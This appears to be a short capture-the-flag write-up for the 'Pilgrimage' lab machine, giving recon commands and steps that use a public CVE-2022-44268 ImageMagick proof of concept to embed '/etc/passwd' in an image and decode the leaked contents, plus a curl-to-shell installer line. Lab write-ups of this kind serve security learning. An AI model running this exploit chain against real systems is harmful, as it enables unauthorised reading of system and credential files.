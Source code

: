 ```yaml
---
cover: ../../.gitbook/assets/Pilgrimage.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pilgrimage

Sources

* https://github.com/voidz0r/CVE-2022-44268
* https://doc.rust-lang.org/cargo/getting-started/installation.html

```bash
echo '10.129.148.164 pilgrimage.htb' | sudo tee -a /etc/hosts
nmap pilgrimage.htb
ffuf -u http://pilgrimage.htb/FUZZ -w /usr/share/wordlists/rockyou.txt:FUZZ --recursion -r -fs 7621
curl -o magick http://pilgrimage.htb/magick
chmod +x magick

curl https://sh.rustup.rs -sSf | sh
source "$HOME/.cargo/env"

git clone https://github.com/voidz0r/CVE-2022-44268
cd CVE-2022-44268
cargo run "/etc/passwd"

identify -verbose image.png
../magick convert image.png -resize 50% output.png
identify -verbose output.png
python3 -c 'print(bytes.fromhex("23202f6574632f686f73747...e740a"))'
```
